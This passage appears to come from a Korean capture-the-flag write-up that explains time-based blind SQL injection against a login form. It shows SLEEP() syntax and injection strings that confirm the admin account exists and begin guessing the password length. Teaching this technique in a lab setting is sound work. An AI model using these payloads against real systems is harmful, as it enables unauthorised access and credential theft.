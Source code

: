 `SLEEP()` 함수를 활용해야 함 

**`SLEEP()`** 

```sql
SLEEP(시간초)
```

```sql
SLEEP(5)
```

5초 대기 후 결과 반환

|

```sql
admin' and SLEEP(3) -- 1
```

![2. What time is it? 5](/assets/images/writeup/web-hacking/knock-on/2-1_What_time_is_it_4.png)

admin 계정이 존재한다면 3초 대기 후 페이지가 랜더링 됨

페이지가 바로 랜더링 되지 않고 3초 대기 되는 것을 보아 admin 계정이 존재함을 알 수 있음

|

```sql
admin' and LENGTH(password) = 1 and SLEEP(3) -- 1
```

비밀번호 길이를 구하는 쿼리에 결과 확인을 위한 3초 지연 추가
